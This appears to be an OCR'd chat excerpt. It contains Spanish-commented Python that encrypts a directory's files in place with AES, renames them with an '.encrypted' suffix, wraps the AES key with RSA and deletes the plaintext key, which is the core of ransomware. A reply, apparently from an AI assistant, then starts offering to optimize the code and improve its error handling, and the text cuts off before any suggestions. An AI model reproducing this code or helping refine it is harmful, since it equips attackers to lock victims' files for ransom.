 def load_aes_key():
    ruta_clave = os.path.abspath("aes_key.bin")
    if os.path.exists(ruta_clave):
        with open(ruta_clave, "rb") as clave_file:
            return clave_file.read()
    else:
        raise FileNotFoundError(f"El archivo de clave no se encuentra en: {ruta_clave}")

def cifrar_archivo(archivo, clave):
    iv = os.urandom(16)  # Vector de inicialización
    cipher = AES.new(clave, AES.MODE_CBC, iv)
    with open(archivo, "rb") as f:
        datos = f.read()
    datos_cifrados = cipher.encrypt(pad(datos, AES.block_size))
    with open(archivo, "wb") as f:
        f.write(iv + datos_cifrados)  # Guardamos IV + datos cifrados

def cifrar_clave_aes(clave_aes):
    gen_keys.generate_rsa_key()
    if not os.path.exists("rsa_public.pem"):
        raise FileNotFoundError("El archivo de clave pública RSA 'rsa_public.pem' no se encuentra.")
    with open("rsa_public.pem", "rb") as f:
        clave_publica = RSA.import_key(f.read())
    cipher_rsa = PKCS1_OAEP.new(clave_publica)
    clave_cifrada = cipher_rsa.encrypt(clave_aes)
    with open("aes_key_encrypted.bin", "wb") as f:
        f.write(clave_cifrada) 
    print("Clave AES cifrada con RSA y guardada en aes_key_encrypted.bin.")

def cifrar_archivos():
    directorio, archivos = find_files()  
    if not isinstance(archivos, list):
        print("Error: No se pudo obtener la lista de archivos.")
        return
    aes_key = load_aes_key()
    for archivo in archivos:
        archivo_absoluto = os.path.join(directorio, archivo)  # 'directorio' es el directorio base
        print(f"Intentando cifrar: {archivo_absoluto}")  # Depuración adicional
        if os.path.isfile(archivo_absoluto):  # Asegura que es un archivo y no un directorio
            cifrar_archivo(archivo_absoluto, aes_key)
            ruta_nueva = archivo_absoluto + ".encrypted"
            print(f"Renombrando archivo: {archivo_absoluto} a {ruta_nueva}")  # Depuración
            os.rename(archivo_absoluto, ruta_nueva)  # Usar la ruta completa
            print(f"Archivo renombrado a: {ruta_nueva}")  # Depuración
    print("Archivos cifrados y renombrados correctamente.")
    cifrar_clave_aes(aes_key)
    os.remove("aes_key.bin")


if __name__ == "__main__":
    cifrar_archivos()

## Response:
Para mejorar el código que has proporcionado, podemos enfocarnos en varios aspectos: optimización, manejo de errores, modularización, y claridad del flujo. Aquí te doy algunas sugerencias de mejora:
